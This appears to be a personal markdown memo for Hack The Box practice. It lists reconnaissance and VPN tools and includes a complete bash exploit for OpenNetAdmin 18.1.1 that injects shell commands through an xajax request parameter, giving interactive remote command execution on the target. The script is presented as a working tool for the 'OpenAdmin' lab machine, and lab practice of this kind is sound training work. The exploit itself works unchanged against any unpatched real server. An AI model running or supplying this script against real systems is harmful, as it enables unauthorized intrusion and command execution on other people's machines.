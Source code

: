 # Hack The Box Setup/Memos

### **_Do most testing in a VM or Linux enviroment to avoid damaging your system and for access to most tool sets being used._**

---

## Useful Tools:

|                             Tool                              |                                            Usage                                            |
| :-----------------------------------------------------------: | :-----------------------------------------------------------------------------------------: |
| [dirb](https://zoomadmin.com/HowToInstall/UbuntuPackage/dirb) |                            Brute force server directory scanner                             |
|     [openvpn](https://www.ovpn.com/en/guides/ubuntu-cli)      | Open source vpn tunneling service. HTB requires this for you to access some target servers. |
|         [rlwrap](https://linux.die.net/man/1/rlwrap)          |     Wraps minimal read-line cmd prompt to enable back and forward code history flipping     |
|        [nmap](https://nmap.org/book/man-examples.html)        |                          Checks for open ports in a given domain.                           |

### Useful script to gain RCE for <mark>**OpenAdmin**</mark>

```bash
#!/bin/bash
Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
